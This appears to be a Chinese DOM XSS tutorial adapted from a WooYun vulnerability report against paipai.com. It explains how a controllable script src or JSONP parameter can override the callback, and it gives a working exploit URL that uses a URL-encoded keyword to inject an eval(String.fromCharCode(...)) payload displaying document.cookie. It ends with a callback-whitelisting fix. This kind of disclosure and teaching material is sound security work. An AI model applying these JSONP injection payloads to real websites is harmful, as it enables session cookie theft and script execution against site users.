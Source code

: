 # 12\. Dom Xss 进阶 [路径 con]

> 来源：[12\. Dom Xss 进阶 [路径 con]](http://www.wooyun.org/bugs/wooyun-2010-016279)

## 简要描述

我不是萝莉 con,我是路径 con。

一些程序员会动态的加载 json 数据，同域的时候，可以使用 ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域 请求。跨域请求数据的手段中，有一种叫做 jsonp。

用代码表示的话，就是 `somescript.src="http://otherdomain.com/xx?jsonp=callback"`

某些时候，程序员会在调用外部数据的时候带上可控的参数。 `somescript.src="http://otherdomain.com/xx?jsonp=callback&id="+id;` 如果这个 id 我们可控，将可能带来 XSS 问题。

## 详细说明

本次教程，就不像前面的一样，去细说操作过程了，前面的几次教程也基本将常用操作全部介绍到了。直接来看例子。

1\. 在扫描过程中，经常遇到下面的例子。

![image](img/Image_059.jpg)

2\. 初看看，这种情况，似乎没有什么利用价值。

3\. 但是我们不难想象，如果这个地址是我们可控的话，一样会带来威胁。

地址的可控可以分为 3 个层面。

3.1 `script src="完全可控"` ,这种就简单了，直接将地址换为我们的 JS 地址

3.2 `script src="/path/xxx/[路径可控]/1.js"` 这种要利用的话，需要同域名下有可控的文件。可控文件又分为 2 种。

3.2.1 可以直接上传文本至同域名下，不一定要是 HTML 文件，需要上传点有过滤缺陷。

3.2.2 参数可控，利用可用的 json 接口。

最终变为 `script src="/path/xxx/.../yyy/xx.json?callback=alert(1)"`

3.3 `script src="/xxxx/json.php?callback=xxxx&param1=yyy&param2=[参数可控]"`

这种情况，和 3.2.2 类似，如果参数可控，且 json 的参数没有很好的过滤时。我们就有机可乘了。

4\. 本文以拍拍网一处 XSS 为例，来描述以上可能性。

扫描器扫到的点，见步骤 1 中的图。进一步，我们可以通过抓包的方式，看到页面在打开时，所加载的外部 JS 文件地址。

```
http://sse1.paipai.com/comm_json?callback=commentListCallBack&dtag=1&ac=1&cluster=1&sellquality=0&NewProp=&Property=256&PageNum=1&PageSize=48&OrderStyle=80&Address=&SaleType=1&degree=1&AuthType=2&BeginPrice=&EndPrice=&KeyWord=2012%20%D0%C2&OnlineState=2&Paytype=4&ranking=&sClassid='aaaaaaaa&t=1354854681 
```

我们打开这个 JSON，用扫描反射型的方式，可以测试出，callback, dtag 以及 ranking 可控。但均无法使用`<`, `>`，也就是说，这个 JSON 接口本身是无 XSS 风险的。 此外 dtag, 和 ranking 都在双引号里面，我们在后续无法进行利用，而 callback 则在最前面，比较好控制。 我们可以想象下，如果我们可以让这个页面调用：

```
http://sse1.paipai.com/comm_json?callback=alert(1); 
```

那么将会产生 XSS。

那么怎么让页面调用上面的情况呢？

4.1 直接控制 callback 参数，但是从实际情况来看，我们此处无法直接控制它，【失败】

4.2 将后面的参数, `param=xxx` 修改为 `param=xxx&callback=alert(1)` ，从而覆盖前面的 callback

5\. 上面说到的第 2 种方案，似乎可行。但是实际上还是有问题的。

譬如我们页面上的 type 参数，对应着 json 的 sclassid 参数。 我们访问以下地址：

```
http://bag.paipai.com/search_list.shtml?type=&callback=alert(1);&np=11&pro=256&searchtype=2&cs=0010000&keyword=&PTAG=20058.13.13 
```

其实很明显上面这样是不行的。。因为 `&` 本身就是参数分隔符。这样写 type 就为空了 可能很快就有人想到另外一个写法：`&` 写为 `%26`

```
http://bag.paipai.com/search_list.shtml?type=%26callback=alert(1);&np=11&pro=256&searchtype=2&cs=0010000&keyword=&PTAG=20058.13.13 
```

很好，但是实际上，你会发现，访问的 json 接口的参数也还是原封不动的 `%26`，而不是所希望的 `&`

![image](img/Image_060.jpg)

6\. 为了看看参数是怎么从页面，传递到了 comm_json 这个接口上的。我们定位到以下代码。

```
http://static.paipaiimg.com/js/search.js?t=20121108 
```

```
function init() {
    var keyword = decodeURIComp($getQuery('keyword')), type = $getQuery('type'),
    searchtype = $getQuery('searchtype'); 
    option.keyword = keyword; option.classId = type;
    option.searchType = searchtype || option.searchType; 
    option.beginPrice = $getQuery('bp');
    option.endPrice = $getQuery('ep');
    option.NewProp = $getQuery('np') || $getQuery('newprop'); 
    option.property = $getQuery('pro') || option.property; 
    option.cid = $getQuery('cid');
    option.Paytype = $getQuery('pt') || option.Paytype; 
    option.hongbaoKeyword = $getQuery('hb');
    option.conditionStatus = $getQuery('cs') || option.conditionStatus; 
    option.showType = $getQuery('show') || option.showType;
    option.mode = $getQuery('mode') || option.mode; 
    option.address = decodeURIComp($getQuery('adr'));
    option.orderStyle = $getQuery('os') || option.orderStyle || 80; 
    option.hideKeyword = $getQuery('hkwd') == "true" ? true: false; 
    option.ptag.currentPage = $getQuery('ptag') || $getQuery('PTAG'); 
    var pageIndex = $getQuery('pi'),
    pageSize = $getQuery('ps');
    option.pageIndex = (pageIndex && $isPInt(pageIndex)) ? pageIndex * 1: option.pageIndex; 
    option.pageSize = (pageSize && $isPInt(pageSize)) ? pageSize * 1: option.pageSize;
}; 
```

在这个文件里，我们很容易的看出，当前页面参数和 json 参数的对应关系 `option.JSON 参数=$getQuery("页面参数")`

7\. 一个函数让我眼前一亮啊，`decodeURIComp`。。也就是说，传入的 keyword，会解码一次。

也就是说，如果我们 `keyword=%26callback=alert(1);` decodeURIComp 就会变为 `&callback=alert(1);` 为了证明我们的想法：我们直接写利用代码。注意 `keyword=`那一部分

```
http://bag.paipai.com/search_list.shtml?type=213280&np=11&pro=256&searchtype=2&cs=0010000&keyword=%26callback=eval(St ring.fromCharCode(97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));void&PTAG=20058.13.13 
```

8\. 看效果：弹了吧

![image](img/Image_061.jpg)

抓包可以看到，被动态加载的 keyword 参数，我们在后面插入了一个 callback，覆盖了前面的 callback

![image](img/Image_062.jpg)

同样，看到返回的 comm_json 的内容

![image](img/Image_063.jpg)

## 修复方案

1\. 也可对 jsonp 接口的 callback 参数进行更加严格的字符控制，一般的 callback，只需要允许，字母，数字+下划线即可。